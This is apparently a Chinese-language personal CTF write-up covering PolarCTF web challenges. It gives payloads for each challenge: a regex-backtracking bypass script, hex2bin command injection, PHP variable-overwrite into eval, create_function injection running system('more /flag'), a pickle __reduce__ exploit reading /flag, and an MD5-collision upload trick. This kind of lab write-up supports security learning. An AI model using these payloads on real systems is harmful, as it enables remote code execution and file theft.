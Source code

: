 # web
### swp
递归绕过正则限制
```python
import requests
data = {"xdmtql": "sys nb" + "aaaaa" * 1000000}
res = requests.post('http://d9d00980-d2fc-412e-b6cc-b6db2562eafb.www.polarctf.com:8090/index.php', data=data, allow_redirects=False)
print(res.content)

```

### 简单rce
$IFS空格绕过+sort读取文件

### 上传


### 非常好绕的命令执行

hex2bin转换
`http://1ae67e55-509c-49e4-9bf7-a04be9788ca5.www.polarctf.com:8090/?args1=hex2bin&args2='73797374656d'&args3='ls'`

### php是世界上最好的语言
变量覆盖
```php
<?php
//flag in $flag
highlight_file(__FILE__);
include("flag.php");
$c=$_POST['sys'];
$key1 = 0;
$key2 = 0;
if(isset($_GET['flag1']) || isset($_GET['flag2']) || isset($_POST['flag1']) || isset($_POST['flag2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($flag1 == '8gen1' && $flag2 == '8gen1') {
    if(isset($_POST['504_SYS.COM'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\?/", $c)){
         eval("$c");  

    }
}
}
?>
```

```http
http://www.xxx.com?_POST[flag1]=8gen1&_POST[flag2]=8gen1
post:sys=echo($flag);&504[SYS.COM=a
```

### \$\$
`$GLOBALS`全局变量
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231211154038.png)


### 某函数的复仇
create_function注入

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231211163836.png)

```php
$shaw('',$root);


root=}system('more /flag');/*
shaw=create_function
```


### veryphp
call_user_func
调用类的方法
`myans=qwq::oao`

### unpickle
#pickle 

```python
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        return (eval,("__import__('os').popen('cat /flag').read()",))


e = exp()
s = pickle.dumps(e)#将获取的对象序列化
user = base64.b64encode(s).decode()##将序列化的对象使用base64加密
print(user)#输出加密后的序列化对象
```

### upload tutu
使用`fastcoll`生成俩个hash值相同的文件,在`D:\CTF_Tools\fastcoll_v1.0.0.5.exe\fastcoll_v1.0.0.5.exe`

`fastcoll_v1.0.0.5.exe -p test.php -o test1.php test2.php`


``


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-12-09   23:22